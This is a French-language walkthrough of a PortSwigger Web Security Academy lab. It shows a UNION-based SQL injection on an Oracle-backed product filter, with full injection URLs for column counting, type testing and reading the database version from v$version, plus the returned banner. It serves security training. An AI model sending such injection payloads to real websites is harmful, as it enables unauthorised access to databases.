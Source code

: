           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

------------------------------------------------------------------------------------------------------

La récupération de la version et du type est somme toute similaire à ce que l'on connait déjà en matière d'énumération de database.
On peut commencer par déterminer le nombre de colonnes et leur compatibilité avec le format string.


Allons dans une catégorie du shop en ligne et lançons une salve de 'ORDER BY 1-- :
https://0a2400b603805659c0b12fb600b40069.web-security-academy.net/filter?category=Pets'ORDER BY 1--
https://0a2400b603805659c0b12fb600b40069.web-security-academy.net/filter?category=Pets'ORDER BY 2--

Internal server error à partir de ORDER BY 3, nous avons donc 2 colonnes.
Si nous voulions passer par UNION SELECT NULL,...-- nous devrions ajouter FROM dual à la fin, car sous Oracle, il faut toujours indiquer
une table vers laquelle nous voulons utiliser SELECT.

Vérifions leur compatibilité :
https://0a2400b603805659c0b12fb600b40069.web-security-academy.net/filter?category=Lifestyle'UNION SELECT 'a',NULL FROM dual--
https://0a2400b603805659c0b12fb600b40069.web-security-academy.net/filter?category=Lifestyle'UNION SELECT NULL,'a' FROM dual--

Les 2 semblent compatibles.

Nous avons donc 2 colonnes compatibles avec le format string, dans une database sous Oracle. C'est le moment de récupérer la version.
Une colonne par défault "banner", appartenant à la table v$version pour les databases sous Oracle
est indiquée dans le SQLi Cheatsheet de Portswigger : https://portswigger.net/web-security/sql-injection/cheat-sheet
On peut donc tenter :
https://0a2400b603805659c0b12fb600b40069.web-security-academy.net/filter?category=Lifestyle'UNION SELECT banner,NULL FROM v$version--

Le payload fonctionne, on peut récupérer la version entre les paragraphes sur la page :

CORE 11.2.0.2.0 Production
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production